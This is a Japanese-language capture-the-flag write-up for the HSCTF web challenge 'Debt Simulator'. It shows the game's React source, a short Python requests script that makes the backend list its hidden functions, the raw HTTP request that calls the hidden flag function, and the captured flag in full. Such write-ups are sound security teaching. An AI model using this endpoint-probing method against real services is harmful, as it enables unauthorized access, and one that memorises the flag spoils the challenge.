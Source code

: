 # Debt Simulato

```
web

https://debt-simulator.web.hsctf.com/
Author: Madeleine
```

<br>

## Solution

![1](https://user-images.githubusercontent.com/47602064/83932626-c5b87580-a7de-11ea-9b9d-fe23b6f8bb65.png)

問題のページに移動するとゲーム画面が表示されました。

試しに通信を見ながら試してみます。

```http
POST /yolo_0000000000001 HTTP/1.1
Host: debt-simulator-login-backend.web.hsctf.com

```

`function=getPay`

`function=getCost`

すると`getPay`でお金が増え、`getCost`で減っています。

そして`-1000`になると負けだそうです。

![2](https://user-images.githubusercontent.com/47602064/83937770-ac2d2300-a80a-11ea-9c47-14113401ea25.png)

<br>

次に`App.js`のソースを見てみます。

```javascript
import React, { useState, useEffect } from 'react';
import Header from "./Header";
import Main from './Main';
import Message from './Message';
import Button from "./Button";
import "./App.css";

function App() {
  const [message, setMessage] = useState("Ready to Play?");
  const [runningTotal, setRunningTotal] = useState(0);
  const [buttonText, setButtonText] = useState("Start Game");


  useEffect(() => {
    if (runningTotal < -1000) {
      setMessage("You lost. You have less than $-1000. Better luck next time.");
      setButtonText("Play Again");
    } else if (runningTotal > 2000) {
      setMessage("You won. You have more than $2000. Try your luck again?");
      setButtonText("Play Again");
    } else if (runningTotal !== 0 && buttonText !== "Next Round") {
      setButtonText("Next Round");
    }
  });

  const onClick = () => {
    const isGetCost = Math.random() > 0.4 ? true : false;
    const func = isGetCost ? 'getCost' : 'getPay';
    const requestOptions = {
      method: 'POST',
      body: 'function=' + func,
      headers: { 'Content-type': 'application/x-www-form-urlencoded' }
    }

    fetch("https://debt-simulator-login-backend.web.hsctf.com/yolo_0000000000001", requestOptions)
    .then(res => res.json())
    .then(data => {
      data = data.response;
      if (buttonText === "Play Again" || buttonText === "Start Game") {
        setButtonText("Next Round");
        setRunningTotal(0);
      }
      setMessage("You have " + (isGetCost ? "paid me " : "received ") + "$" + data + ".");
      setRunningTotal(runningTotal => isGetCost ? runningTotal - data : runningTotal + data);
    });
  }

  return <div className="App">
    <Header />
    <Message message={message}/>
    <Main content={runningTotal}/>
    <Button onClick={onClick} text={buttonText}/>
  </div>;
}

export default App;
```

これソースより、合計が`2000`になれば勝ちのようです。

ですが、プログラム上普通にやっても難しそうです。

`Burp`を使って`getPay`に変更してもプログラム上変えられてしまい、意味がありませんでした。

<br>

試しに以下のプログラムを実行させてみます。

```python
#!/usr/bin/python3

import requests

url = 'http://debt-simulator-login-backend.web.hsctf.com/yolo_0000000000001'

r = requests.post(url)
source = r.text
print(source)
```

```
$ python3 solve.py 
{"functions":["getPay","getCost","getgetgetgetgetgetgetgetgetFlag"]}
```

これにより`getPay`,`getCost`の他に`getgetgetgetgetgetgetgetgetFlag`というのが隠れてあることがわかります。

<br>

なのでこれを送ってみます。

```http
POST /yolo_0000000000001 HTTP/1.1
Host: debt-simulator-login-backend.web.hsctf.com

function=getgetgetgetgetgetgetgetgetFlag
```

```http
HTTP/1.1 200 OK

{"response":"flag{y0u_f0uND_m3333333_123123123555554322221}"}
```

![3](https://user-images.githubusercontent.com/47602064/83937744-6708f100-a80a-11ea-8356-0730927c657e.png)


<br><br>

## FLAG: flag{y0u_f0uND_m3333333_123123123555554322221}
